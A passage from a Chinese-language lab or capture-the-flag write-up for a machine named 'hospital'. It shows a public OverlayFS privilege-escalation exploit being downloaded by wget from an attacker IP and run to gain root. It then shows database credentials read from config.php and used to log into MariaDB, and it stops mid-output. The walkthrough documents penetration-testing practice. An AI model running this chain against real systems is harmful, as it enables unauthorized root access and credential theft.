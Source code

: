    注意到目标机器是ubuntu 23.04，内核版本是5.19.0-35-generic，5.19.0的内核容易受到OverlayFS 模块中两个易于利用的[权限提升漏洞](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability)。

   ![image-20231122120732042](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311221339068.png)

3. 特权提升的负载来自于[CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)。

   ```
   www-data@webserver:/tmp$ wget http://10.10.16.4/exploit.sh -o exploit.sh
   www-data@webserver:/tmp$ chmod +x exploit.sh
   www-data@webserver:/tmp$ id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   
   
   www-data@webserver:/tmp$ ./exploit.sh
   [+] You should be root now
   [+] Type 'exit' to finish and leave the house cleaned
   root@webserver:/tmp# id
   uid=0(root) gid=33(www-data) groups=33(www-data)
   ```

   

## 2.3、 webserver特权后枚举

1. 枚举web服务的目录，发现了链接数据库的凭证`root:my$qls3rv1c3!`

   ```
   root@webserver:/var/www/html# cat config.php 
   <?php
   /* Database credentials. Assuming you are running MySQL
   server with default setting (user 'root' with no password) */
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'root');
   define('DB_PASSWORD', 'my$qls3rv1c3!');
   define('DB_NAME', 'hospital');
    
   /* Attempt to connect to MySQL database */
   $link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
    
   // Check connection
   if($link === false){
       die("ERROR: Could not connect. " . mysqli_connect_error());
   }
   ?>
   ```

   使用该凭证连接上数据库，这里应该是8080口上web服务上的登录凭证，无法破解其余两个账户的凭证

   ```
   root@webserver:/var/www/html# mysql -uroot -p hospital
   Enter password: 
   Reading table information for completion of table and column names
   You can turn off this feature to get a quicker startup with -A
   
   Welcome to the MariaDB monitor.  Commands end with ; or \g.
   Your MariaDB connection id is 23
   Server version: 10.11.2-MariaDB-1 Ubuntu 23.04
   
   Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
   
   Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
   
   MariaDB [hospital]> show tables;
   +--------------------+
   | Tables_in_hospital |
   +--------------------+
   ```
